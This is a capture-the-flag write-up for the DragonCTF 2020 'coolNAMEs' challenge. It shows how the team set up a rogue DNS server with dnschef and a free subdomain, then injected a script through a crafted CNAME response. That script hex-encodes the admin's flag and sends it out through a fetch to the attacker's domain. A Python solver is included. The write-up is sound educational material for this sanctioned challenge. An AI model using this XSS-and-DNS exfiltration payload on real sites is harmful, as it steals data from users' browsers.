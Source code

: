 ```yaml
---
layout: default
title: Leaking data with DNS
subtitle: CTF Writeup - DragonCTF 2020 - coolNAMEs - XSS and DNS exfiltration (19 solves)
---
```

 
# coolNAMEs
 
Challenge front page:
 
![](/assets/images/coolnames/frontpage.gif)
 
You had to give it an IP address and then it called the function `make_query`.
 
I didn't know much about what `make_query` did at this point except that it was probably a DNS lookup of some sort (hint: port 53, coolNAMEs, etc.).
 
Running `make_query` on 127.0.0.1 resulted in the page just hanging. I guess because there was no DNS server listening on localhost of the server.
 
Running with `8.8.8.8` (one of Google's DNS servers), we got
 
![](/assets/images/coolnames/queryresult.png)
 
Ok so apparently there was no query result... I had no idea what they were querying for. Also the note about the flag... wasn't sure what to think of this at the time.
 
Next step was to figure out what kind of DNS query they were sending. For that, I needed to run a DNS server on a public IP and tell them to query my server.
 
I still had some free credits on Vultr (*I wish they were paying me to say this*), so I started an instance with a public ipv4 address.
 
On the instance I ran a simple `nc` command to listen on the public ip port 53, then submitted my ip to the web form.
 
![](/assets/images/coolnames/nclisten.png)
 
Obviously this was a DNS request, but I couldn't tell what exactly it was requesting beyond maybe `5bt5f.7i` for the domain name.
 
`sudo tcpdump -i ens3 -w tcpdump.pcap` + wireshark
 
![](/assets/images/coolnames/wireshark.png)
 
When I ran it again, the requested domain name this time was `f357c.3f` and thanks to wireshark, I could see that it was a CNAME record request.
 
Each time I ran it, it requested a different domain name. The names were being generated randomly, so obviously they weren't real registered domain names.
 
I wanted to see what would happen if their DNS request actually got a result back, but first:
 
<!-- <pic?> -->
 
# XSS
 
Something I didn't put much thought into initially was this:
 
![](/assets/images/coolnames/reportadmin.png)
 
Jamvie and Robert (who are much more experienced with web stuff), connected the dots between that and this
 
![](/assets/images/coolnames/theflagis.png)
 
So this clearly meant that the admin user was going to come view the results if the box was checked. And since only the admin could see the flag, this meant that we needed to force the admin to send it to us when they viewed the page (XSS).
 
# DNS Server
 
Now I wanted to investigate what would happen if our server actually returned a valid response for their DNS request.
 
Robert recommended the tool [dnschef](https://github.com/iphelix/dnschef), which just made this so easy. dnschef acts as a man in the middle for all DNS requests, forwarding requests to a real DNS server, e.g., `8.8.8.8`, then for certain chosen domains, it can fake DNS records completely.
 
Meaning if someone queries my DNS server for `5bt5f.7i`, dnschef could be trivially programmed to return arbitrary IP addresses for the request.
 
A quick test to see what would happen if I made dnschef return `HelloWorld` for all CNAME requests:
 
![](/assets/images/coolnames/dnschefouthelloworld.png)
 
and the output
 
![](/assets/images/coolnames/helloworldoutput.png)
 
Instead of `HelloWorld`, we just had to put something in there, like `<script>...</script>` that would cause the admin to execute our javascript in their browser context and leak the flag. However, because of this
 
![](/assets/images/coolnames/remarks.png)
 
we had to leak the flag out with only DNS requests. However, unlike the first time around, where we got to specify the IP address of the DNS server, this time we couldn't do that and we had to actually get the public DNS system to route a DNS request from the admin's browser to our dnschef server, where we could then retrieve the flag from the request.
 
First, we needed to construct a DNS query that would leak the flag. We did that with essentially this `fetch(http:// + getflagfromadminsHTML().hexencode() + .cd481af3fd77.us.to)` or
 
`<script>fetch("http://"+document.getElementById('flag').innerText.replaceAll(/./g,(m)=>m.charCodeAt(0).toString(16)).slice(35,90)+'zz'+Math.floor(Math.random()*Math.floor(10000))+".cd481af3fd77.us.to");</script>`{:.nowrap2}
 
So when the admin would log in and view the site, they would end up executing a fetch to a domain name that had the flag inside it, and we would receive the request at our server.
 
But again, for this to work we needed the public DNS system to route a DNS request to our dnschef server. For that we had to actually get our dnschef server published on an existing public DNS server.
 
# Registering our dnschef server
 
Robert was pretty familiar with this and he actually knew of a website [freedns.afraid.org/](https://freedns.afraid.org/) that would let him register our dnschef server on a public DNS server that handled `us.to.` domains **FOR FREE**. We like free things. The site seems a little sketch though. It causes my CPU to run on high for some reason.
 
There were two things he needed to do:
 
1. Register an NS record for our dnschef server
2. Register an A record for our dnschef server (`155.138.221.247`)
 
Robert chose `cd481af3fd77.us.to.` (*random*) as the domain that our dnschef server should receive requests for.
 
He gave our dnschef server the domain name `nneonneo-yxe.us.to.`.
 
Then he made the A record for `nneonneo-yxe.us.to.` = `155.138.221.247`, the IP of the dnschef server.
 
So now when I sent a DNS request for `cd481af3fd77.us.to.` to `8.8.8.8` (Google), it would do this:
 
![](/assets/images/coolnames/dnslookup.png)
 
![](/assets/images/coolnames/dnslifecycle.png)
 
Notice at the end it sent the request to our dnschef `155.138.221.247`
 
![a](/assets/images/coolnames/nsrecord.png)
 
So everything under the `cd481af3fd77.us.to` domain was being handled by the `nneonneo-yxe.us.to` DNS server, which had an IP address of `155.138.221.247` (our dnschef server).
 
# Retrieving the flag
 
```
from pwn import *
import requests
import re
from hashlib import sha1
import sys
 
URL = "http://reverse-lookup.hackable.software/"
r = requests.get(URL)
r = r.text
 
m = re.search(r"value=\"(.*?)\"", r)
nonce = m.group(1).encode("ascii")
 
def crack(nonce):
   for _ in range(2**30):
       pow = randoms(20).encode("ascii")
       guess = sha1(nonce + pow).hexdigest()
       if "313377" in guess:
           print(f"Got it: {pow}")
           return pow
   else:
       print("Didn't get it")
       sys.exit(1)
 
pow = crack(nonce)
 
nonce = nonce.decode("ascii")
pow = pow.decode("ascii")
ip = "155.138.221.247"
 
data={"nonce":nonce, "pow": pow, "srv": ip, "for_admin": "on"}
print(data)
r = requests.post(f"{URL}/query?", data=data)
```
 
![](/assets/images/coolnames/flag.png)
 
And the flag was hex encoded in the DNS request!
 
`537b4d7573744c7575757576444e535f646f6e7459617d ~= DrgnS{MustLuuuuvDNS_dontYa}`
